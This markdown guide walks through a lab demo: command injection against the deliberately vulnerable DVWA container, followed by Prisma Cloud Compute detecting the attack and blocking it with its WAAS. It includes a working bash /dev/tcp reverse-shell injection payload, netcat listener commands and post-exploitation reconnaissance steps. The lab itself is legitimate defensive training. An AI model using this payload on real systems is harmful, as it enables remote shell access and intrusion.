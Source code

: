 ## Command Injection Demo with DVWA App

NOTE: Please do not attempt on the demo enviornment of this wiki. I've provided instructions on how to set-up this lab so attempts will not be made. Thank you. 

Requirements:
* Prisma Cloud Compute edition deployed; see Deployment Guide here: [Minikube Prisma Cloud Compute Partner VM Lab Deployment Instructions](Prisma_Cloud_Compute_Minikube_Lab.md)
* Container defender deployed in environment where you'll be runnning the DVWA app. 
* [Docker Installed](https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04)
* Netcat installed (comes with ubuntu and many other linux distros) for macOS `brew install netcat`

### Intital Set-up

* Retrieve the DVWA webapp `docker pull vulnerables/web-dvwa`
* Tag the image you pull down `docker tag vulnerables/web-dvwa:latest dvwa:1`
* Create bridged docker network `docker network create --driver bridge dvwa-net`
* Run the container and map port 80 on the host machine to port 80 on the container. `docker run -dit -p 80:80 --name dvwa --network dvwa-net dvwa:1`
* Explain as you're running this in terminal that the important part of this command to understand is that `-p 80:80` maps the host machines port to the container port. This is important to highlight during your demonstration, because people often misunderstand how networking within a container works. We'll demonstrate how we can reverse shell into the container using a different port, from anywhere. 
* Open up a web browser and go to the dvwa app. `http://localhost/setup.php`
* reset the database then login in. username: `admin` password: `password`

### Run the exploit

* On the left hand side of the DVWA menu go to the command injection tab. 
* Explain what command injection is in this scenario. Ultimately, command injection is an attack where a malicious actor attempts to manipulate the user input so that code is executed on the shell of the container/server in a different way than the developer intended. 
* In the DVWA app, under the command injection section the developer's intention is for function to run a ping command 4 times on the ip address submitted by the user. 

### (Option 1) Locally from vm to laptop terminal ---easiest/recommended way

* To run the attack, open a terminal window on your local machine. Explain this is the attackers terminal. In terminal enter (linux devices) `nc -lvp 5678` (macOS) `netcat -lvp 5678`. This will open a listening port on port 5678. Nothing too exiting to see yet. 
* Then retrieve the Internal IP address of the local machine.
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_INTERNAL_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -lvp 5678` you should now have a reverse shell into the container. 

### (Option 2) Externally from vm to External EC2 Instance

* Create a ubuntu EC2 instance and assign it a public IP address. 
* On the EC2 dashboard page in the AWS Console write down the public IP address assigned to the instance.
* Edit the security group to allow inbound tcp communication over port 5678.
* SSH to EC2 
* `sudo nano /etc/hosts` add `0.0.0.0 localhost` to the top line of the hosts file. `ctl + x` then `y` then `enter`
* In terminal type `nc -l -p 5678`
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_EC2_PUBLIC_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -l -p 5678` you should now have a reverse shell into the container. 

### Show the implications of an attack like this

* Now you can demonstrate to your audience the difference between a vm and a container. 
* Because a container shares the same kernel as the host device it's running on an attacker can gain information which can used to gain further access into the network. 
* Run the command `whoami` to show that you're running as `www-app`. 
* `cd` through the web app and `ls` as you step through the directories to show the ability to perform directory traversal and see all the content of the web app. 
* Once you're at the root directory, run the following commands to reveal what information is being fed to the shared kernel. 
* `uname -a` provides the processor architecture, the system hostname and the version of the kernel running on the host machine. If you're able to determine that it's an vulnerable/unpatched kernel this information can be used to gain further access and information. 
* `cat /proc/cmdline` shows the kernel parameters passed during boot
* `cat /proc/cpuinfo` shows the type of processor the host machine is running, including the amount of CPUs present
* `cat /proc/version` provides inforation which pertains to the version of Linux kernel used in the host machine machines distro. 
* Link to linux kernel vulnerabilities from the CVE database [here](https://www.cvedetails.com/vulnerability-list/vendor_id-33/product_id-47/cvssscoremin-7/cvssscoremax-7.99/Linux-Linux-Kernel.html)

### See how Prisma Cloud Defenders responded to the incident. 

* Log into the Prisma Cloud Compute console
* Go to Monitor > Events > container audits
* There should be an incident reported as a reverse shell. 
* Click the event and then click forensic icon on the incident. 
* Show how the incident is tracked in near real time. 
* Scroll through the event details and show the commands you ran earlier with your reverse shell. 
* Point out that the IP Address of attacker was logged. This information could be very useful for incident response using Prisma Cloud Enterprise edition. (RQL Network from.....)


### Enable the WAAS to block this behavior

In the Prisma Compute Console:

* Step 1a:(Enterprise Edition ONLY) Go to Prisma Console > Compute > Defend > WAAS
* Step 1b:(Compute Edition) Go to Defend > WAAS
* Step 2: Click ‘Add Rule’
* Step 3: Rule Name: Command Injection Defense
* Step 4: Then click scope
* Step 5: Add all images that have dvwa in them
* Step 6: Click ‘Add New App’
* Step 7: On the next pop-up click the ‘+ Add Endpoint’ 
* Step 8: Enter 80 for internal port then hit ‘Create Endpoint’ 
* Step 9: Click the ‘App Firewall' tab and under command injection set it to block. 
* Step 10: Click ‘Save’


### Attempt attack again. 

* Log out of the dvwa app and close your reverse shell session by typing `exit` in the "attackers" shell. 
* Attempt to do the attack again on the web app and you should see a blocked warning. Note that the IP address of the attacker is logged. 
